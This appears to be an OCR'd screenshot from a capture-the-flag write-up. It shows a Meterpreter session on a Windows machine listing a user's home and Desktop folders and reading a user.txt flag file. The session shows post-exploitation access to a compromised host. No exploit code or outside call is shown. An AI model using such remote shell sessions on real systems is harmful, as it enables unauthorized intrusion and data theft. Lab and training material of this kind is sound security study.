 meterpreter > cd babis
meterpreter > ls
Listing: C:\Users\babis
=======================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2017-03-17 23:17:40 +0900  AppData
40777/rwxrwxrwx   0       dir   2017-03-17 23:17:40 +0900  Application Data
40555/r-xr-xr-x   0       dir   2017-03-17 23:17:44 +0900  Contacts
40777/rwxrwxrwx   0       dir   2017-03-17 23:17:40 +0900  Cookies
40555/r-xr-xr-x   0       dir   2017-03-17 23:17:40 +0900  Desktop
40555/r-xr-xr-x   4096    dir   2017-03-17 23:17:40 +0900  Documents
40555/r-xr-xr-x   0       dir   2017-03-17 23:17:40 +0900  Downloads
40555/r-xr-xr-x   4096    dir   2017-03-17 23:17:40 +0900  Favorites
40555/r-xr-xr-x   0       dir   2017-03-17 23:17:40 +0900  Links
40777/rwxrwxrwx   0       dir   2017-03-17 23:17:40 +0900  Local Settings
40555/r-xr-xr-x   0       dir   2017-03-17 23:17:40 +0900  Music
40777/rwxrwxrwx   0       dir   2017-03-17 23:17:40 +0900  My Documents
100666/rw-rw-rw-  524288  fil   2017-03-17 23:17:40 +0900  NTUSER.DAT
100666/rw-rw-rw-  65536   fil   2017-03-17 23:17:40 +0900  NTUSER.DAT{6cced2f1-6e01-11de-8bed-001e0bcd1824}.TM.blf
100666/rw-rw-rw-  524288  fil   2017-03-17 23:17:40 +0900  NTUSER.DAT{6cced2f1-6e01-11de-8bed-001e0bcd1824}.TMContainer00000000000000000001.regtrans-ms
100666/rw-rw-rw-  524288  fil   2017-03-17 23:17:40 +0900  NTUSER.DAT{6cced2f1-6e01-11de-8bed-001e0bcd1824}.TMContainer00000000000000000002.regtrans-ms
40777/rwxrwxrwx   0       dir   2017-03-17 23:17:40 +0900  NetHood
40555/r-xr-xr-x   0       dir   2017-03-17 23:17:40 +0900  Pictures
40777/rwxrwxrwx   0       dir   2017-03-17 23:17:40 +0900  PrintHood
40777/rwxrwxrwx   0       dir   2017-03-17 23:17:40 +0900  Recent
40555/r-xr-xr-x   0       dir   2017-03-17 23:17:40 +0900  Saved Games
40555/r-xr-xr-x   0       dir   2017-03-17 23:17:52 +0900  Searches
40777/rwxrwxrwx   0       dir   2017-03-17 23:17:40 +0900  SendTo
40777/rwxrwxrwx   0       dir   2017-03-17 23:17:40 +0900  Start Menu
40777/rwxrwxrwx   0       dir   2017-03-17 23:17:40 +0900  Templates
40555/r-xr-xr-x   0       dir   2017-03-17 23:17:40 +0900  Videos
100666/rw-rw-rw-  262144  fil   2017-03-17 23:17:40 +0900  ntuser.dat.LOG1
100666/rw-rw-rw-  0       fil   2017-03-17 23:17:40 +0900  ntuser.dat.LOG2
100666/rw-rw-rw-  20      fil   2017-03-17 23:17:40 +0900  ntuser.ini

meterpreter > cd desktop
meterpreter > ls
Listing: C:\Users\babis\desktop
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-03-17 23:17:51 +0900  desktop.ini
100444/r--r--r--  32    fil   2017-03-18 08:14:21 +0900  user.txt.txt

meterpreter > cat user.txt.txt 
9ecdd6a3aedf24b41562fea70f4cb3e8meterpreter > 
